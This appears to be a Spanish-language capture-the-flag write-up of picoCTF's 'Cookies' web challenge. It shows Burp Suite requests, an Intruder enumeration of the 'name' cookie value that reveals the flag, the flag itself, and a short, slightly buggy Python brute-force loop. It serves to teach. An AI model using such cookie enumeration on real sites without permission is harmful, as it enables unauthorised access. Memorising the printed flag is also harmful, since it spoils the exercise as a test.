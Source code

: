# Cookies

## Descripcion
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:29649/](http://mercury.picoctf.net:29649/)
## Solucion
Probamos a escribir cosas aleatorias, pero realmente ninguna funcion, solo nos entrega este mensaje de error `That doesn't appear to be a valid cookie.`
Probamos a abrir burpsuite para ver que es lo que pasa al momento de escribir algo:
```
GET /check HTTP/1.1
Host: mercury.picoctf.net:29649
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://mercury.picoctf.net:29649/
Accept-Encoding: gzip, deflate, br
Cookie: name=-1
Connection: keep-alive
```
Y podemos ver que cuando obtenemos la respuesta negativa, la cookie 'name' tiene el valor de -1, probamos a escribir el valor qu enos dice por defecto y la cookie cambia a 1. Entonces ahora con el intruder de burpsuite vamos y preparamos un ataque para ver en cual de las posibles cookies nos regresa algo de informacion valiosa.

```payload
-----------------------------------------------------------------
Payload type: Numbers
From:1
To:50
Seleccionar el valor de la cookie para que sea el que se cambie
-----------------------------------------------------------------

GET /check HTTP/1.1
Host: mercury.picoctf.net:29649
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://mercury.picoctf.net:29649/
Accept-Encoding: gzip, deflate, br
Cookie: name=1
Connection: keep-alive
```
Y vemos que cuando la cookie tiene el valor de 18 es cuando nos da la flag:

```flag
picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}
```

## Notas adicionales

```python
import request
import re

url = ""

for i in range(20):
	cookies = {'name':'{}'.format(i)}
	r = requests.get(url,cookies=cookies)
	if 'picoCTF' in r.text:
		flag=re.findall('picoCTF{.*}', r.text)[0]
		print(flag)
```

## Referencias
